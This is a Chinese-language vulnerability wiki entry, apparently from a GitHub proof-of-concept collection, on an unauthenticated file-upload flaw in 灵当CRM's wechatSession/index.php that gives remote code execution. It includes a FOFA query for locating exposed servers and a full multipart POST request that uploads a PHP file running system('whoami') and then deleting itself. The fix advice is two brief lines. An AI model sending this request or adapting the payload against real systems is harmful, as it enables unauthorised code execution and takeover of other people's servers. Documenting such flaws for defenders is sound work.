

# 灵当CRM wechatSessionindex.php 文件上传致RCE漏洞 

# 漏洞描述

灵当CRM wechatSession/index.php 接口存在任意文件上传漏洞，未经身份验证的攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个 web 服务器。

# 影响版本

灵当CRM

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="include/js/ldAjax.js"

POC/EXP：

POST /crm/wechatSession/index.php?token=9b06a9617174f1085ddcfb4ccdb6837f&msgid=1&operation=upload HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Connection: keep-alive
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary03rNBzFMIytvpWhy

------WebKitFormBoundary03rNBzFMIytvpWhy
Content-Disposition: form-data; name="file"; filename="jp.php"
Content-Type: image/jpeg

<?php system("whoami");unlink(__FILE__);?>
------WebKitFormBoundary03rNBzFMIytvpWhy--

# 修复方案

关闭互联网暴露面或接口设置访问权限

升级至安全版本

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
